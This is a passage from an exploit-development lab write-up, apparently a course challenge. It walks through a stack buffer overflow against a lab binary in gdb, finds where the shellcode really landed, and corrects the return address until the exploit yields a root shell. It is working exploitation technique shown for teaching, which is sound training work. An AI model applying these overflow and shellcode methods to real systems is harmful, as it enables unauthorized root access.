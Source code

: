 This does not look right. Lets check the position of our shellcode, `0xffffd87e`:
```
(gdb) x/4x 0xffffd87e
0xffffd87e:     0x41414141      0xffffd87e      0x73657400      0x45540074
```

This is not our shellcode. Lets repeat step "Find buffer base address":

```
(gdb) b *0x080485c3
Breakpoint 1 at 0x80485c3
(gdb) run `python challenge11-exploit-skel.py` test
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /root/challenges/challenge11/challenge11 `python challenge11-exploit-skel.py` test

Breakpoint 1, 0x080485c3 in handleData ()
(gdb) x/1x $ebp+0x8
0xffffd620:     0xffffd836
(gdb) x/4x 0xffffd836
0xffffd836:     0x90909090      0x90909090      0x90909090      0x90909090
```

It seems that now, our shellcode is located at address `0xffffd836`. Most likely
because the shellcode is much longer than the original parameter, libc moved everything
around a bit. Lets update our exploit yet again, and try it again.

## Test exploit again

Update the exploit:

Replace:
```
ret_addr = "\x7e\xd8\xff\xff"
```

with:
```
ret_addr = "\x36\xd8\xff\xff"
```

Lets try again:
```
(gdb) run `python challenge11-exploit-skel.py` test
Starting program: /root/challenges/challenge11/challenge11 `python challenge11-exploit-skel.py` test
Hello cmd-...
You are not admin.
isAdmin: 0x80cd0bb0
process 572 is executing new program: /bin/dash
# id
uid=0(root) gid=0(root) groups=0(root)
#
```
